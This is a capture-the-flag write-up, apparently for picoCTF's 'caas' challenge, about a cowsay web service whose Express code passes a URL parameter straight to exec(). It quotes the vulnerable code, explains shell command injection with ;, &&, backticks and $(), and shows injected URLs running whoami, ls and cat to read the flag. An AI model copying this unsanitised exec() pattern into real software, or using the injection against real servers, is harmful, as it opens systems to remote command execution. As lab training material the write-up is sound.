

We are given an `index.js` file that has the source code for the webserver:
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

The application has a glaring vulnerability, it is using `exec()` with user input! This executes the input in a shell, we can use this to run other commands via a command injection!

Let's look at the remote web application first:


The application says to send a request to `/cowsay/{message}` which executes `cowsay` on the message (like the above source code).

There are a few ways to execute commands inside an existing command or to execute another command afterwards.
- We can use backticks to embed an existing command into a string:
```bash
$ echo "whoami"
whoami
$ echo "`whoami`"
user
```
- We can use `$()` as a command substitution like the backticks aswell:
```bash
$ echo "$(whoami)"
user
```
- We can use semicolons (`;`) to end the current command and run others:
```bash
$ /usr/games/cowsay a;whoami;
...
user
```
- We can use `&&` to append a command after the execution of the first:
```bash
$ /usr/games/cowsay a&&whoami
...
user
```

I'm going to use semicolons for my solution.

We can't just do `;whoami;` as without providing cowsay an input it will hang waiting for a string to print, so we can do `a;whoami;` to make it do `/usr/games/cowsay a;whoami;`

We can now do this on remote, let's visit `https://caas.mars.picoctf.net/cowsay/a;whoami;`.
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Perfect! The username of the current user is `node`! Let's run `ls` to look at the contents of the current directory. I use `https://caas.mars.picoctf.net/cowsay/a;ls;` and get the directory listing:
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Let's read `falg.txt`, which seems to be a typo of `flag.txt`, using `cat` we can read it! `https://caas.mars.picoctf.net/cowsay/a;cat falg.txt;`
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
